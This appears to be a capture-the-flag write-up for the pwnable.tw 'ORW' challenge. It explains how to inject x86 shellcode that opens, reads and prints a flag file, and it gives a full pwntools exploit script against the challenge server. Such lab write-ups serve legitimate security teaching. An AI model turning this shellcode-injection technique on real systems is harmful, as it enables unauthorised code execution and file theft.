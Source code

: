 ```yaml
---
layout: post
author: tourpran
title: ORW - pwnable.tw
categories: writeup
tags: ["pwnable.tw"]
---
```


> Hey guys, this is a pretty awesome challenge !! Here we will be writing assembly and then we will give it to the program(binary)

![](/assets/images/pwnabletw2/pwnable1.png)

### Solution: 

First I check the mitigations :

![](/assets/images/pwnabletw2/pwnable2.png)

* We have NX disabled. That means it is something to do with the shellcode.
* Seems like there is a canary which will not allow you to do a stack based buffer overflows.
* there is no pie so the address of the binary will be same every time you run.

Let's see the disassembly of this program
![](/assets/images/pwnabletw2/pwnable.gif)

Here we can see that our input is being put in the address ``0x804a060`` and then it is moved to EAX and then after that EAX is called.
Meaning: our input is being executed. Now, let us run the binary and see what is happening :>

![](/assets/images/pwnabletw2/pwnable3.png)

> Hmm… We get a segfault.

#### Idea:

* As said in the question we will you three syscalls and then get the flag
* First call: open the flag file
* Second call: read the file
* Third call: write it to the output

#### Exploit:

We will see the exploit in parts.

#### Part 1

![](/assets/images/pwnabletw2/pwnable4.png)

* We make EAX to 5
* we push the string “///home/orw/flag”
* We make EBX pointing to the stack ( the string )
* We make EDX equal to 0 and then we make the syscall.

#### Part 2

![](/assets/images/pwnabletw2/pwnable5.png)

* We make EAX equal to 3
* We make ECX point to the string
* Give EDX the buffer size
* Call the syscall

#### Part 3

![](/assets/images/pwnabletw2/pwnable6.png)

* We make EAX equal to 4
* Make EBX equal to 0
* Add 1 to EBX / making EBX equal to 1. Then call the syscall.

> Refer to the below image if having any doubts !!

![](/assets/images/pwnabletw2/pwnable7.png)

If we put all of the things together, then we get the flag.

![](/assets/images/pwnabletw2/pwnable8.png)

```py

from pwn import *
p = remote('chall.pwnable.tw',10001)
print p.recv()
s = asm("xor eax, eax")
s += asm("push eax")
s += asm("add eax, 5")
s += asm("push 0x67616c66")
s += asm("push 0x2f77726f")
s += asm("push 0x2f656d6f")
s += asm("push 0x682f2f2f")
s += asm("mov ebx, esp")
s += asm("mov edx, 0")
s += asm("int 0x80")
s += asm("mov eax, 3")
s += asm("mov ecx, ebx")
s += asm("mov ebx, 3")
s += asm("mov edx, 40")
s += asm("int 0x80")
s += asm("mov eax, 4")
s += asm("mov ebx, 0")
s += asm("inc ebx")
s += asm("int 0x80")
p.send(s)
f = p.recv()
print f
p.interactive()

```

> I hope you liked the write-up. More writeups on its way.